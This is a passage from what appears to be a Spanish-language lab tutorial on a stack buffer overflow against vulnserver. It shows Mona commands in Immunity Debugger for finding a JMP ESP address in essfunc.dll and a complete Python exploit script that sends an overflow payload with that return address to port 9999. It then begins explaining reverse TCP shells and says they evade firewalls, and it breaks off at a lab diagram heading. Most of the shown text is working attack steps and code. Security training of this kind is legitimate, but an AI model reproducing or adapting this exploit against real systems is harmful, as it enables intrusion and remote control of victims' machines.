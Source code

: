 Paso 2: Buscar la instrucción JMP ESP con Mona
1.	En Immunity Debugger, abre la consola de comandos de Mona:
2.	Ejecuta el siguiente comando en la consola de Mona para buscar la instrucción JMP ESP en essfunc.dll:
!mona find -s "\xff\xe4" -m essfunc.dll
3.	Mona mostrará una lista de direcciones de memoria donde se encuentra JMP ESP. Estas direcciones serán utilizadas para redirigir la ejecución del exploit hacia el stack.

Paso 3: Configuración del Exploit en Kali Linux
1.	Configura la conexión de red entre la máquina host (Windows) y la máquina virtual (Kali Linux) en modo Bridged o Host-Only.
2.	Crear un script de Python en Kali Linux para el exploit:
o	En Kali, abre un editor de texto y crea un archivo llamado exploit.py:
nano exploit.py
o	Escribe el siguiente código en el archivo, reemplazando la dirección JMP ESP y la IP de Windows:
import socket

# Dirección IP y puerto del servidor vulnerable (Windows Host)
target_ip = "192.168.18.5"  
target_port = 9999

# Dirección de JMP ESP obtenida en Mona
jmp_esp_address = b"\xaf\x11\x50\x62"  

# Payload para desbordamiento de búfer
payload = b"A" * 2003 + jmp_esp_address + b"C" * (3000 - 2003 - 4)

# Crear el socket y enviar el payload
try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((target_ip, target_port))
    s.send(payload + b"\r\n")
    s.close()
    print("Payload enviado!")
except Exception as e:
    print(f"No se pudo conectar al servidor: {e}")
3.	Ejecutar el script en Kali:
o	Guarda el archivo y ejecuta el script en la terminal de Kali:
python3 exploit.py
o	Observa en Immunity Debugger si vulnserver se comporta de manera inusual o se detiene, lo que indicará que el desbordamiento fue exitoso.

Paso 4: Configuración de la Conexión TCP Reversa
Explicación de la Conexión TCP Reversa
Una conexión TCP reversa permite que la máquina víctima (Windows) se conecte de vuelta a la máquina atacante (Kali Linux), estableciendo una shell. Esto suele eludir los firewalls porque es una conexión de salida desde la máquina Windows.
Diagrama del Setup de Laboratorio: